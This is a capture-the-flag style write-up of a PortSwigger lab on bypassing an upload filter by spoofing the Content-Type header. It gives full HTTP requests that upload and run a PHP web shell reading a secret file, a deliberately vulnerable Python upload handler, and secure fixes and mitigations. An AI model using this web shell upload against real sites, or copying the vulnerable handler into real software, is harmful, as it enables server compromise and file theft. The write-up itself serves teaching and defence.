



# Lab 02: Web Shell Upload via Content-Type Restriction Bypass

> **Topic**: File Upload Vulnerabilities
> **Lab Number**: 02
> **Platform**: PortSwigger Web Security Academy

## Category
File Upload — MIME Type Validation Bypass (Content-Type Header Spoofing)

## Vulnerability Summary
The application allows users to upload avatar images and validates the upload by checking the `Content-Type` header in the multipart request. The server does **not** validate the actual file contents or extension — it trusts the client-supplied `Content-Type` value entirely. By uploading a PHP web shell with `Content-Type: image/jpeg` (instead of `application/x-php`), the server accepts the file and stores it in a web-accessible directory. The uploaded PHP file is then directly requested, causing the server to execute it and return the contents of `/home/carlos/secret`.

## Attack Methodology

### Step 1: Identify the Upload Endpoint
Navigated to **My Account** as user `wiener`. The profile page contains an avatar upload form that POSTs to the server via multipart/form-data. Intercepted the upload request in Burp Suite Repeater.

### Step 2: Attempt Upload with Real PHP Content-Type
Crafted a multipart upload request with `filename="exploit.php"` and `Content-Type: application/x-php`:

```http
POST /my-account/avatar HTTP/2
Host: 0a1e008903e306888213b5e3003b0083.web-security-academy.net
Cookie: session=myvvGF1DLcRpGWtXd1LFqNFXYEeESB0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFqSZdK6SxXN9EY5T

------WebKitFormBoundaryFqSZdK6SxXN9EY5T
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>

------WebKitFormBoundaryFqSZdK6SxXN9EY5T
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryFqSZdK6SxXN9EY5T
Content-Disposition: form-data; name="csrf"

BD9DsRl6D47iz9IJNOUUMGEBOuOjhgzf
------WebKitFormBoundaryFqSZdK6SxXN9EY5T--
```

Server rejected the upload — it only permits image MIME types.

### Step 3: Bypass by Spoofing Content-Type to image/jpeg
Changed only the `Content-Type` of the file part from `application/x-php` to `image/jpeg`, keeping the PHP payload and `.php` extension unchanged:

```http
POST /my-account/avatar HTTP/2
Host: 0a1e008903e306888213b5e3003b0083.web-security-academy.net
Cookie: session=myvvGF1DLcRpGWtXd1LFqNFXYEeESB0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFqSZdK6SxXN9EY5T

------WebKitFormBoundaryFqSZdK6SxXN9EY5T
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: image/jpeg

<?php echo file_get_contents('/home/carlos/secret'); ?>

------WebKitFormBoundaryFqSZdK6SxXN9EY5T
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryFqSZdK6SxXN9EY5T
Content-Disposition: form-data; name="csrf"

BD9DsRl6D47iz9IJNOUUMGEBOuOjhgzf
------WebKitFormBoundaryFqSZdK6SxXN9EY5T--
```

Response:

```http
HTTP/2 200 OK
Content-Type: text/html; charset=UTF-8
Content-Length: 132

The file avatars/exploit.php has been uploaded.<p>
  <a href="/my-account" title="Return to previous page">
    « Back to My Account
  </a>
</p>
```

Upload accepted — the server stored `exploit.php` in `/files/avatars/`.

### Step 4: Execute the Web Shell
Sent a GET request directly to the uploaded file:

```http
GET /files/avatars/exploit.php HTTP/2
Host: 0a1e008903e306888213b5e3003b0083.web-security-academy.net
Cookie: session=myvvGF1DLcRpGWtXd1LFqNFXYEeESB0
```

Response:

```http
HTTP/2 200 OK
Content-Type: text/html; charset=UTF-8
Content-Length: 32

KbohKkyt2gMfcLcUjr5ALE6yHWfJK0YF
```

The PHP was executed server-side and returned the secret. Lab solved.







## Technical Root Cause

### Vulnerable Validation (Trusts Client-Supplied Header)
```python
def upload_avatar(request):
    file = request.FILES['avatar']
    content_type = request.POST.get('Content-Type') or file.content_type  # from multipart header

    ALLOWED_TYPES = ['image/jpeg', 'image/png', 'image/gif']
    if content_type not in ALLOWED_TYPES:
        return HttpResponseForbidden('Only image uploads are allowed')

    # Saves file using the client-supplied filename, including extension
    save_path = f'/var/www/files/avatars/{file.name}'
    with open(save_path, 'wb') as f:
        f.write(file.read())
    return HttpResponse('Upload successful')
```

Two flaws:
1. Validation is based entirely on the `Content-Type` header, which is attacker-controlled
2. The file is saved with its original extension (`.php`), and the upload directory is web-accessible and PHP-executable

### Secure Validation (Server-Side Content Inspection)
```python
import magic

def upload_avatar(request):
    file = request.FILES['avatar']
    file_bytes = file.read()

    # Inspect actual file magic bytes, not the client-supplied header
    detected_type = magic.from_buffer(file_bytes, mime=True)
    ALLOWED_TYPES = ['image/jpeg', 'image/png', 'image/gif']
    if detected_type not in ALLOWED_TYPES:
        return HttpResponseForbidden('Only image uploads are allowed')

    # Rename to a random UUID with a safe extension derived from detected type
    import uuid
    ext = {'image/jpeg': '.jpg', 'image/png': '.png', 'image/gif': '.gif'}[detected_type]
    safe_name = str(uuid.uuid4()) + ext
    save_path = f'/var/www/files/avatars/{safe_name}'
    with open(save_path, 'wb') as f:
        f.write(file_bytes)
    return HttpResponse('Upload successful')
```

## Impact
- **Remote Code Execution**: Any PHP code uploaded as an avatar is executed by the web server when the file URL is requested
- **Arbitrary File Read**: The web shell can read any file accessible to the web server process (e.g., `/home/carlos/secret`, `/etc/passwd`)
- **Full Server Compromise**: With RCE, an attacker can escalate to a reverse shell, pivot to internal services, or exfiltrate credentials

**Severity: Critical**

## Proof of Concept

**Step 1 — Upload web shell with spoofed Content-Type:**
```
POST /my-account/avatar HTTP/2
Content-Type: multipart/form-data; boundary=----Boundary

------Boundary
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: image/jpeg

<?php echo file_get_contents('/home/carlos/secret'); ?>
------Boundary--
```

**Step 2 — Execute the shell:**
```
GET /files/avatars/exploit.php HTTP/2
```

Response body contains the secret directly.

## Key Takeaways
1. **Content-Type is Attacker-Controlled**: The `Content-Type` header in a multipart upload is set by the client. Trusting it for security decisions is equivalent to trusting user input — it must never be the sole validation mechanism.
2. **Validate File Contents, Not Headers**: Use magic byte inspection (e.g., `libmagic`) to determine the actual file type from the binary content. JPEG files start with `FF D8 FF`; PNG with `89 50 4E 47`. PHP scripts do not match any image signature.
3. **Never Serve Uploaded Files from an Executable Directory**: Store uploads outside the web root or in a directory configured to never execute scripts (`php_flag engine off` in Apache, or serve via a dedicated static file server). Even if a `.php` file is uploaded, it should be served as raw bytes, not executed.
4. **Rename Uploaded Files**: Discard the client-supplied filename entirely. Generate a random UUID-based name with an extension derived from the server-verified MIME type. This eliminates extension-based execution even if directory configuration is misconfigured.

## Mitigation

### 1. Inspect Magic Bytes
```python
import magic
detected = magic.from_buffer(file.read(2048), mime=True)
assert detected in ['image/jpeg', 'image/png']
```

### 2. Disable Script Execution in Upload Directory (Apache)
```apache
<Directory /var/www/uploads>
    php_flag engine off
    Options -ExecCGI
    AddType text/plain .php .php3 .phtml
</Directory>
```

### 3. Serve Uploads via a Separate Non-Executable Origin
Serve uploaded files from a dedicated subdomain (e.g., `static.example.com`) with no server-side scripting enabled, completely isolated from the application server.

### 4. Allowlist Extensions and Rename Files
```python
SAFE_EXTENSIONS = {'.jpg', '.jpeg', '.png', '.gif'}
ext = os.path.splitext(file.name)[1].lower()
if ext not in SAFE_EXTENSIONS:
    raise ValidationError('Invalid file type')
safe_name = f'{uuid.uuid4()}{ext}'
```

## References
- [PortSwigger — Web Shell Upload via Content-Type Restriction Bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass)
- [PortSwigger — File Upload Vulnerabilities](https://portswigger.net/web-security/file-upload)
- [OWASP — Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
- [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)
- [RFC 2046 — MIME Part Two: Media Types](https://datatracker.ietf.org/doc/html/rfc2046)

## Tools Used
- Burp Suite Professional (Proxy, Repeater)
- Chromium

---

*Lab completed on: 2026-05-13*  
*Writeup by vibhxr*
